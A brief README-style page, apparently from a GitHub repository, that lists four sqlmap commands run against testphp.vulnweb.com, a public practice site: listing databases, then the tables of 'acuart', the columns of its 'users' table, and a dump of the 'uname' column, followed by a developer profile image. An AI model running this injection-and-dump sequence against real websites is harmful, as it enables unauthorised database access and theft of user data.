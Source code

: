 # sqlmap-dev hacking now:

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all ```


## profile by developer:
<img src="rejaul.jpg" width="600"/>
